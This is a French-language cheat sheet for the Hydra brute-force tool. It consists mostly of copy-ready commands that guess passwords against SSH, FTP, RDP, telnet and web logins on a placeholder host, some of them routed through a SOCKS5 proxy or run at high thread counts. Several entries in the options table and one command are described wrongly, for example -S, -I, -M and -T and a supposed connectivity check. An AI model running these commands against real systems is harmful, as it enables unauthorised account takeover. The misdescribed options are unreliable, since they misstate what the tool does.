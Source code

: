 #  Hydra

##  Commandes les plus utiles
➡️ Brute force sur un login HTTP (formulaire classique)
```
hydra -l admin -P /path/to/wordlist.txt http://target.com/login.php
```

➡️ Brute force sur un service SSH
```
hydra -l root -P /path/to/wordlist.txt ssh://target.com
```

➡️ Brute force sur un service FTP
```
hydra -l user -P /path/to/wordlist.txt ftp://target.com
```

➡️ Brute force sur un service HTTP (basic auth)
```
hydra -L users.txt -P /path/to/wordlist.txt http-get://target.com
```

➡️ Brute force sur un service RDP (Remote Desktop Protocol)
```
hydra -l admin -P /path/to/wordlist.txt rdp://target.com
```

➡️ Brute force avec proxy (socks5, etc.)
```
hydra -l admin -P /path/to/wordlist.txt -socks5 proxy_ip:port http://target.com
```

➡️ Brute force en mode parallélisme (plus rapide)
```
hydra -l admin -P /path/to/wordlist.txt -t 64 ssh://target.com
```

➡️ Vérifier les services en ligne sans brute force (test de connectivité)
```
hydra -t 4 -s 22 -vV target.com ssh
```

➡️ Brute force sur un service telnet
```
hydra -l root -P /path/to/wordlist.txt telnet://target.com
```

➡️ Sauvegarder les résultats dans un fichier de log
```
hydra -l admin -P /path/to/wordlist.txt ssh://target.com -o result.log
```

---

## 🧩 Options utiles (tableau)

|Option|Description courte|
|---|---|
|`-l`|Spécifie le login utilisateur|
|`-L`|Spécifie un fichier contenant une liste d’utilisateurs|
|`-P`|Spécifie un fichier contenant une liste de mots de passe|
|`-p`|Spécifie un mot de passe unique|
|`-t`|Nombre de threads (par défaut : 16)|
|`-s`|Port à spécifier|
|`-vV`|Mode verbeux pour voir l'évolution du bruteforce|
|`-o`|Sauvegarde les résultats dans un fichier|
|`-I`|Utilisation d’un fichier .csv pour les utilisateurs|
|`-S`|IP ou DNS du serveur cible|
|`-M`|Mode de brute force sur plusieurs cibles|
|`-T`|Test de vitesse (timing entre chaque requête)|
|`-f`|Arrêter dès que la première combinaison valide est trouvée|
